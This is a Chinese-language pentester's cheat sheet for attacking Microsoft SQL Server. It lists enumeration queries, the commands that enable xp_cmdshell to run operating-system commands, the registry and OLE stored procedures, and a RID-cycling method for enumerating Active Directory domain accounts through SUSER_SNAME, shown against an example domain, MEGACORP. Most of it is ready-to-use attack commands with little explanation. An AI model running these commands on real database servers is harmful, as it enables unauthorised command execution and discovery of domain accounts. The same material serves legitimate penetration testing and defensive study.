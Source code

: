 # mssql

1433端口。



具体参考https://www.freebuf.com/vuls/276814.html，下面没有列全。

## 基本语句

```mssql
exec xp_dirtree 'c:'        // 列出所有c:\文件、目录、子目录
exec xp_dirtree 'c:',1      // 只列c:\目录
exec xp_dirtree 'c:',1,1    // 列c:\目录、文件
exec xp_subdirs 'C:';       // 只列c:\目录

exists(select * from sysobjects)//判断是否为mssql
select is_srvrolemember('sysadmin') #判断是否是系统管理员 
select is_srvrolemember('db_owner') //判断是否是库权限 
select is_srvrolemember('public')   //判断是否为public权限
select db_name()//查看当前数据库
select @@version

//查询所有数据库
SELECT  Name FROM Master..SysDatabases where name not in ('master','aspcms');
//查询数据库中的所有表
select name from 数据库名.sys.all_objects where type='U' AND is_ms_shipped=0

//查询表的列
select COLUMN_NAME from 数据库名.information_schema.columns where TABLE_NAME='表名'

//如果要跨库查询
select * from 库名.dbo.表名

//查看xp_cmdshell的状态
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'

//开启xp_cmdshell
EXEC sp_configure 'show advanced options', 1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell',1
RECONFIGURE

//一些用xp_cmdshell执行命令的例子：
exec xp_cmdshell "whoami"
master..xp_cmdshell 'whoami'    //2008版上好像用不了
EXEC master..xp_cmdshell "whoami"
EXEC master.dbo.xp_cmdshell "ipconfig"


//常见存储过程
xp_cmdshell         执行系统命令
xp_fileexist        确定一个文件是否存在。
xp_getfiledetails   获得文件详细资料。
xp_dirtree          展开你需要了解的目录，获得所有目录深度。
Xp_getnetname       获得服务器名称。

注册表访问的存储过程
Xp_regwrite
Xp_regread
Xp_regdeletekey
Xp_regaddmultistring
Xp_regdeletevalue
Xp_regenumvalues
Xp_regremovemultistring

OLE自动存储过程
Sp_OACreate Sp_OADestroy Sp_OAGetErrorInfo Sp_OAGetProperty
Sp_OAMethod Sp_OASetProperty Sp_OAStop  
```







## 枚举域账户

https://blog.netspi.com/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases/

https://blog.netspi.com/hacking-sql-server-stored-procedures-part-2-user-impersonation/

https://blog.netspi.com/hacking-sql-server-stored-procedures-part-3-sqli-and-user-impersonation/

https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/





```mssql
--查询MSSQL域名 
SELECT DEFAULT_DOMAIN() --得到MEGACORP

--获取域管理员RID
select SUSER_SID('MEGACORP\Domain Admins')
--十六进制编码
select master.dbo.fn_varbintohexstr(SUSER_SID('MEGACORP\Domain Admins')) --得到0x0105000000000005150000001c00d1bcd181f1492bdfc23600020000
--抓去前48个字节得到域的SID：
--0105000000000005150000001c00d1bcd181f1492bdfc236

--然后递增枚举RID，域的RID从500开始，500的十六进制是01F4，然后反转成F401，然后补零 F4010000，即RID:0x0105000000000005150000001c00d1bcd181f1492bdfc236F4010000

--然后枚举用户
select SUSER_SNAME(0x0105000000000005150000001c00d1bcd181f1492bdfc236F4010000) --得到MEGACORP\\Administrator
--递增枚举，即可。
```



